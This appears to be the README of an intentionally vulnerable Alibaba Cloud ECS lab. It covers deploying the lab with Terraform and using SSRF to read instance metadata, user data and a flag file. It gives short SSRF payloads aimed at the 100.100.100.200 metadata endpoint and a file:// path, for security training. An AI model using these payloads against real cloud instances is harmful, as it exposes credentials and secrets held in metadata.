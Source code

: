 # Alibaba Cloud ECS SSRF Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the Alibaba Cloud ECS SSRF vulnerability environment.

After building the environment with Terraform, users can obtain metadata and user data and other information on ECS through the SSRF vulnerabilities.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aliyun/ecs/ecs_ssrf/
```

Configure Alibaba Cloud Access Credentials

```shell
aliyun configure
```

> You can create and view your AccessKey on the [AccessKey page](https://ram.console.aliyun.com/manage/ak) of the Alibaba Cloud console

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![img](../../../images/1651824215.png)

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

## Vulnerability Utilization

On ECS with SSRF vulnerabilities, we can use SSRF to read ECS metadata, user data and other information.

read metadata

```shell
http://100.100.100.200/latest/meta-data/
```

![img](../../../images/1651824930.png)

read user data

> The premise is that the target has been configured with user data, otherwise will be disconnected.

```shell
http://100.100.100.200/latest/user-data/
```

![img](../../../images/1651824992.png)

In the user data information, you can see that there is a flag file in the root directory of the scenario, try to use SSRF to read this file.

```shell
file:///flag69152201.txt
```

![img](../../../images/1651825032.png)

Successfully read the flag file.

## Destroy the environment

```shell
terraform destroy
```
